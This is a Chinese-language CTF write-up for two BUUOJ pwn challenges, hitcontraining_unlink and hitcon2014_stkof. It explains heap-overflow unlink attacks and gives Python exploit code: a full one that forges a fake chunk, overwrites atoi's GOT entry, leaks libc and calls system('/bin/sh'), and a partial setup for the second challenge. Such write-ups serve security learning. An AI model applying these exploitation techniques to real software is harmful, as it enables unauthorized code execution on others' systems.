 
## hitcontraining_unlink
[题目](https://buuoj.cn/challenges#hitcontraining_unlink)

考点：利用堆溢出实现unlink

而且这题不能通过puts_got来泄露。。。所以用atoi。
伪造fake chunk 触发unlink后，使得chunk0用户段的开头变成了&bss-0x18处，所以这时edit(0)，往用户段写实际上是往bss段写，所以可以写一个got表地址，顺带把size段修好。
这次写了过后，再次edit(0)的时候就是直接改got表的值了（我们在bss段指针已经改为atoiのgot表的了），而不是还存在一个0x18的偏移。（说实话真绕啊。。。）

Exp:
```python
add(0x20,'0')
add(0x80,'1')

ptr = 0x6020C8 # bss_addr
fake = p64(0) + p64(0x21) # fake prev_size size
fake += p64(ptr-0x18) + p64(ptr-0x10) # fake fd bk
fake += p64(0x20) + p64(0x90) # chunk1's prev_size size
			      # prev_size = fake_chunk_size   size & 1 = 0
edit(0,fake)

free(1)
#debug()

atoi_got = elf.got['atoi']
pl = p64(0)*2 + p64(0) + p64(atoi_got) # padding: ptr-0x18 -> ptr
edit(0,pl)
show()
atoi_addr = leak_address()
info_addr("atoi",atoi_addr)

libcbase = atoi_addr - libc.sym['atoi']
info_addr("libcbase",libcbase)

system = libcbase + libc.sym['system']
bin_sh = libcbase + next(libc.search(b'/bin/sh\x00'))

edit(0,p64(system))
sa('choice:','/bin/sh\x00')
```

## hitcon2014_stkof
[题目](https://buuoj.cn/challenges#hitcon2014_stkof)


思路:
unlink打到bss段，写puts_got,free_got，把free_got先改为puts_plt，然后free(puts_got)泄露Libc，再将free_got改为system，free("/bin/sh\x00")即可getshell。
这里有个细节点，必须在最开始垫一个chunk1，然后chunk2和chunk3打unlink，不然会失败。（不清楚原因。。。）

为什么不打atoi？因为这题没有能直接打印泄露的点，所以必须改一个puts_plt，如果将atoi_got改为puts_plt显然是无法atoi_got(&free_got)的。
```python
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']
atoi_got = elf.got['atoi']

bss = 0x602140

add(0x20) # 1 <--- 关键
add(0x20) # 2 userdata伪造fake chunk
add(0x80) # 3 lead chunk
add(0x20) # 4 放puts_got
add(0x20) # 5 放"/bin/sh"，同时隔开top chunk
```